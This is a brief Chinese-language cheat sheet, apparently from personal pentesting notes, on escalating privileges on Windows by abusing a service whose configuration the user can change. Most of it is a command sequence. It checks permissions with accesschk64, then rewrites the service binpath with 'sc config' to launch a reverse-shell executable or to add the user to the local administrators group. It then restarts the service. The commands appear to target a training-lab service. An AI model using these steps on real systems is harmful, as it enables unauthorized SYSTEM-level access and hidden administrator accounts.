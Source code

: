 # 当服务可修改配置（服务权限）

发现**SERVICE\_CHANGE\_CONFIG**即可\
可用于权限变更，system或者横向，也可添加用户

```python
1. 查看用户权限
accesschk64.exe -wuvc "user" *
2. 审查权限（服务名字在左侧）看他是不是localsystem运行
sc qc daclsvc
3. 识别（第一步就能识别出来）
存在service_query_config权限
4. 覆盖（也可以传nc调用）
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
或者添加用户
sc config daclsvc binpath="net localgroup administrators user /add" 
5. 启动
net start daclsvc
或者重启
sc stop daclsvc 
sc start daclsvc
```
